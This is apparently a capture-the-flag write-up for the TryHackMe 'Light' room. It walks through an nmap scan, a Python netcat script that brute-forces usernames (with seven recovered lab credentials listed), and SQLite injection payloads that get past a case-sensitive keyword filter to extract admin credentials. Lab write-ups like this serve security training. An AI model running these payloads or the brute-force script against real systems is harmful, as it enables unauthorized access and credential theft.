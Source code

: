 ```yaml
---
title: THM - Light
date: 2025-01-20T23:47:22-06:00
draft: false
description:
isStarred: false
toc: false
---
```


*Room description -*

Welcome to the Light database application!

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc 10.10.117.102 1337` 

You can use the username `smokey` in order to get started!

*Kudos to the room creators - hadrian3689, tryhackme*

*Writeup written by T3chyy*
# Enumeration

We begin with an Nmap scan, now this probably wasn't needed since we're already provided with port `1337` to begin testing with, however it's always important to check for anything else on the box so we don't miss anything:

```
$ nmap -T5 -sC -sV -p- 10.10.116.179
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-20 15:43 PST
Warning: 10.10.116.179 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.116.179
Host is up (0.21s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
|   256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|_  256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     Welcome to the Light database!
|     Please enter your username:
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest:
|     Welcome to the Light database!
|     Please enter your username: Username not found.
|_    Please enter your username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : blob of disgusting crap no one wants to see
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 544.34 seconds
```

Besides the initial 1337 port we were given, we only have an SSH server open, which I'll keep in note in case we find any credentials down the line. (**Spoiler Alert: We don't**)

However we can access the 1337 port using netcat. It looks to be some sort of database application. When we put the username we were provided with in the description of the room it gives us a password:

![Image](1.png)

At first, I took this password and the username `smokey` and attempted to log into SSH with them, unfortunately, these credentials didn't serve any use so I decided to move on.

I assumed there were more accounts so I asked Grok to generate a simple Python script that brute-forces usernames in a wordlist.

```python
import subprocess
import time

# Wordlist with potential usernames
USERNAME_FILE = "/usr/share/seclists/Usernames/Names/names.txt"
# IP address and port of the service
TARGET_IP = "10.10.116.179"
TARGET_PORT = "1337"

INITIAL_PROMPT = "Welcome to the Light database!"

def load_usernames(filename):
    with open(filename, 'r') as file:
        return [line.strip() for line in file if line.strip()]

def bruteforce_usernames(usernames):
    for username in usernames:
        try:
            # Using netcat to connect to the service
            nc = subprocess.Popen(['nc', TARGET_IP, TARGET_PORT], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
            response = nc.stdout.readline().strip()

            if response != INITIAL_PROMPT:
               print(f"Unexpected server response: {response}")
               return None

            # Send the username followed by a newline
            nc.stdin.write(f"{username}\n")
            nc.stdin.flush()

            # Wait for a response (you might need to adjust this based on the service's response time)
            time.sleep(0.5)

            # Read the response
            response = nc.stdout.readline()

            print(f"Testing username: {username}")
            print(f"Response: {response.strip()}")

            # Here you would define what a successful response looks like
            if "successful" in response or "valid" in response:  # Example conditions
                print(f"Valid username found: {username}")
                return username  # Exit if a valid username is found or continue if you want to find all valid usernames

        except Exception as e:
            print(f"Error testing username {username}: {e}")

        finally:
            # Ensure we close the netcat connection
            if nc:
                nc.terminate()
                nc.wait()

    return None

if __name__ == "__main__":
    usernames = load_usernames(USERNAME_FILE)
    valid_username = bruteforce_usernames(usernames)
    if not valid_username:
        print("No valid usernames found.")
```

Using this script allowed me to find 6 other usernames and the passwords associated with them.
However, these credentials don't serve any purpose and do not work when attempted against SSH.

```
smokey:vYQ5ngPpw8AdUmL
michael:7DV4dwA0g5FacRe
john:e74tqwRh2oApPo6
steve:WObjufHX1foR8d7
ralph:YO1U9O1m52aJImA
rob:yAn4fPaF2qpCKpR
alice:tF8tj2o94WE4LKC
```
# Exploitation

I had to find other options in order to find the correct path. I was stuck at this point for a while so I resorted to just spamming random special characters, mostly out of frustration and hoping something will happen. 

Well, turns out my character mashing was worth it because when I put an `'` it printed out an error:

![Image](2.png)

This error looked incredibly similar to that of a SQL query, and considering that it's a database application I decided to start googling SQL injection payloads and cheat sheets

I started off with MySQL payloads, beginning with things like `SELECT * FROM information_schema.tables` but it didn't seem to like the SELECT statement being used

![Image](3.png)

Same thing occurred when using UNION. There seems to be a filter in place preventing certain SQL commands from being used.

When testing another payload, I discover that there's another filter in place, preventing any comments from being used in the query.

![Image](4.png)

One of the first things I checked is whether or not the filter for SELECT & UNION statements were case sensitive, it didn't seem to work with it being all lowercase, however putting at least one capital letter in the statement (or vice versa) seems to bypass the filter.

![Image](5.png)

After about an hour of playing around with MySQL payloads with no success, I had to rethink about what kind of SQL that the box could be using. I then remembered the name of the room:

Light, potentially could mean SQ**Lite**?

So I began searching for payloads that would work for SQLite, and after playing around with the payloads a bit, I finally managed to begin cooking!
### Extracting the table name:
`smokey'Union Select tbl_name FROM sqlite_master WHERE type='table`
![Image](6.png)
### Extracting the columns from admintable:
`smokey'Union Select sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='admintable`
![Image](7.png)
Columns in admintable are "username" and "password"
### Extracting username & password from admintable

Extract username - `smokey'Union Select username FROM 'admintable`

Extract password - `smokey'Union Select password FROM 'admintable`

![Image](8.png)

These 2 payloads should help solve the 1st and 3rd question.

### Extracting the password of the admin user

`smokey'Union Select password FROM 'admintable' WHERE username == 'INSERT_ADMIN_USER`

![Image](9.png)

This final payload should answer the 2nd question, and thus, you've completed the box! Congrats!

## Conclusion

That was a pretty cool box, I took a small break from CTFs after a while and it gave me a really good refresher on some concepts, especially with SQL injection. The room was quite challenging in terms of getting the correct payload, but once I remembered the name of the room I started cooking from there.
